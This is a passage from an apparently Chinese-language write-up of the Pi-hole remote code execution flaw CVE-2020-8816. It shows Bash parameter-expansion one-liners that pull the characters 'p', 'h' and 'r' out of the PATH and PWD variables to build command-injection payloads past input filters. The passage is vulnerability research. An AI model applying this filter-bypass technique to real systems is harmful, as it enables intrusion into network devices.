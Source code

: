 很遗憾，没有h字符，看来还需要找其他环境变量。我在env命令的执行结果中找到了PWD变量，输入试一下：

![2.png](resource/(CVE2020-8816)Pi-hole远程代码执行漏洞/media/rId27.png)

里面有h和r，所以，我可以使用PATH和PWD两个环境变量，获得p、h、r这几个字符。

我使用了[Shell参数扩展](https://www.gnu.org/software/bash/manual/html_node/Shell-Parameter-Expansion.html)对这两个变量值进行截取：

    p:
        SHORT=${PATH##/***:/}&&A=${SHORT#???}&&P=${A%/???}
    h:
        B=${PWD#/???/???/}&&H=${B%???/?????}
    r:
        C=${PWD#/??}&&R=${C%/???/????/?????}
